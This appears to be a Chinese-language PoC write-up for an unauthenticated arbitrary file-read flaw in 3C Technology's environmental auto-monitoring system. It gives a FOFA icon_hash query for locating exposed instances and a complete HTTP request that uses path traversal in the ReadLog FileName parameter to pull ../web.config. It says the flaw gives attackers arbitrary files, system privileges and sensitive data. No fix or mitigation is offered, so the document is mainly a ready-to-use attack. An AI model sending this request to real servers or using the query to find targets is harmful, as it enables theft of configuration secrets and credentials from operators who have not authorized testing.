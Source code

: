 # 3C环境自动监测监控系统ReadLog文件读取漏洞

3C科技环境自动监测监控系统ReadLog读取报错日志功能点不受访问控制限制，存在任意文件读取漏洞。未经授权的攻击者可以读取服务器上的任意文件,从而获取系统权限和敏感信息。 

## fofa

```yaml
icon_hash="-338936081"
```

![image-20240801191240895](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011912982.png)

## poc

```yaml
GET /ajax/sys/LogService.ashx?Method=ReadLog&FileName=../web.config HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http:/{{Hostname}}/Sys/Log/FileLogList.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240801191259831](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011912877.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/CKJO9RohFllYOSnfdu_7Xw